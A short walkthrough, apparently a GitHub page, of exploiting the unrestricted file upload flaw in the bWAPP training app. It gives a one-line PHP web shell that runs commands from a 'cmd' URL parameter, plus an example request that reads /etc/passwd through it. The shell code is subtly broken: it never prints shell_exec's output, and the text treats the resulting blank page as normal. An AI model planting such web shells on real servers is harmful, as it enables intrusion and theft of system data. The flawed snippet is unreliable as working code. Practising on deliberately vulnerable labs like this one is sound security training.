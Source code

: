 # Exploiting Unrestricted File Upload in bWAPP

## Steps to Exploit

### 1. Navigate to Unrestricted File Upload
* Log in to bWAPP.
* Go to **Unrestricted File Upload** from the list of vulnerabilities.

### 2. Prepare the Malicious PHP File
Create a file named `shell.php` with the following payload:

```php
<?php echo "<pre>"; shell_exec($_GET['cmd']); echo "</pre>"; ?>
```

### 3. Upload the Malicious File
* Click **Browse**, select `shell.php`, and then click **Upload**.
* Click on **here** after the upload is completed.
* If a blank page is displayed, it means the file executed but no output was given.

### 4. Execute Commands via Web UI
In the browser, visit the uploaded file (the blank page that was opened in a separate tab) and append a command using the `cmd` parameter.

Example payload to list system users:

```
http://localhost/bWAPP/images/shell.php?cmd=cat+/etc/passwd
```
